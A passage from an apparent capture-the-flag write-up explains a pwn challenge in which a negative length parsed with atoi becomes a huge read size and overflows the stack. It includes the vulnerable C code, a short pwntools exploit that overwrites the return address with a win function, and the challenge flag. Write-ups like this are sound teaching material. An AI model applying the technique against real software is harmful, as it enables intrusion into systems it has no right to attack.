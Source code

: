     print("Buffer overflow detected!\n");
    exit(1);
  }

  /* Read data */
  readline("Data: ", buf, length);
  print("Bye!\n");

  return 0;
}
{% endhighlight %}

Provided a `win` function that we can jump to when we achieve code execution, we have to cause a buffer overflow even though our input size is constrained.

However, we observe that `length` is an **int** and `readint` uses `atoi`(which allows negative numbers) to read.

{% highlight C %}
int readint(const char *msg) {
  char buf[0x10];
  readline(msg, buf, 0x10);
  return atoi(buf);
}
...
/* Entry point! */
int main() {
  int length;
  ...
}
{% endhighlight %}

Therefore, we can provide a _negative_ length, that when interpreted as a length by `readline` will be a large size instead.
This allows us to buffer overflow and overwrite the saved return pointer on stack, giving us code execution to get the flag!

{% highlight Python %}
def exploit(r):
    rop = "A"*280
    rop+= p64(e.symbols["win"])
    sleep(0.1)
    r.sendline("-1")
    sleep(0.1)
    r.sendline(rop)

    r.interactive()
    return
{% endhighlight %}

`ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}`

### histogram (pwn)
> https://histogram.chal.acsc.asia
>
> histogram.tar.gz_d48db29f562ee608ce5bd346221b9a2a.gz
